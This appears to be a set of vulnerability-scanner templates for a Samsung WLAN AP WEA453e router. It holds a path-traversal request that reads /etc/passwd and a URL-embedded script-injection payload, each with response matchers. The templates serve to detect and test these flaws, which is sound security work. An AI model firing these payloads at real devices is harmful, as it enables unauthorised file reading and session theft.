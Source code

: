 **Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Samsung WLAN AP WEA453e - Local File Inclusion
## Description
- Samsung WLAN AP WEA453e is susceptible to local file inclusion vulnerabilities.
- severity - high
- tags - xss,samsung,lfi
## Requests
- Method - GET
### URL
- {{BaseURL}}/(download)/etc/passwd
### Matchers

**Type - regex**
- regex
    1. root:.*:0:0:
    2. bin:.*:1:1
- part - body

**Type - status**
- status
    1. 200

---
# Samsung WLAN AP WEA453e - Cross-Site Scripting
## Description
- Samsung WLAN AP WEA453e router contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,samsung
## Requests
- Method - GET
### URL
- {{BaseURL}}/%3Cscript%3Ealert(document.domain)%3C/script%3E
### Matchers
